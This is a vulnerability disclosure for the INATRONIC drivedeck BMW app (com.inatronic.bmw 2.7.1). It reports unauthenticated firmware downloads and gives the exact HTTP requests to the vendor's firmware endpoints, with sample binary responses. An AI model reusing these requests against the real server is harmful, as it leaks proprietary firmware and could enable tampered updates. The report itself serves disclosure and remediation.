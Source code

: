 # Vulnerability Report - com.inatronic.bmw- Incorrect Access Control

**Product:** `com.inatronic.bmw`

**Vendor:** [INATRONIC](https://drivedeck.de/)

**Version:** 2.7.1

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.inatronic.bmw` , developed by **INATRONIC**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTP requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `f3658a` Field value in the `C0694a`method provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003190701783](https://s2.loli.net/2024/10/03/QKyVbukmg7JMUoY.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET http://download.inatronic.com/version/download_firmware_and.php HTTP/1.1
   User-Agent: Fiddler
   Host: download.inatronic.com
   ```

   ```http
   GET http://download.inatronic.com/version/download_firmware_ios.php HTTP/1.1
   User-Agent: Fiddler
   Host: download.inatronic.com
   
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Transfer-Encoding: chunked
   Cache-Control: private
   Content-Disposition: inline; filename=drivedeck_and_v27.dat
   Content-Transfer-Encoding: binary
   Content-Type: application/application  ; name=drivedeck_and_v27.dat
   Date: Thu, 03 Oct 2024 11:08:03 GMT
   Expires: 0
   Pragma: public
   Server: Apache
   
   7608
      諾W -Wݙ|  Q     
   ......
   ```

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Transfer-Encoding: chunked
   Cache-Control: private
   Content-Disposition: inline; filename=drivedeck_ios_v27.dat
   Content-Transfer-Encoding: binary
   Content-Type: application/application  ; name=drivedeck_ios_v27.dat
   Date: Thu, 03 Oct 2024 11:08:59 GMT
   Expires: 0
   Pragma: public
   Server: Apache
   
   761a
   r i  tXɋ 0 V  VD     A- " Vzf@u CC    \ ˴ @:"ylb   s B]7ه Ex c ! x  ,
   ......
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003183509235](https://s2.loli.net/2024/10/03/WbPNA8RXwlpiqhV.png)

   In total, we successfully downloaded **4 firmware** by exploiting the vulnerability.

## Impact

An attacker can exploit this vulnerability to:

- Download the latest firmware before it is officially released.
- Analyze the firmware for vulnerabilities or proprietary information.
- Create modified firmware images with malicious code.
- Distribute compromised firmware updates to unsuspecting users.

## Remediation

- Implement proper access control on the firmware server, such as device ID and user ID verification.
- Enhance the app's firmware update mechanism to include authentication credentials in the requests.

## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.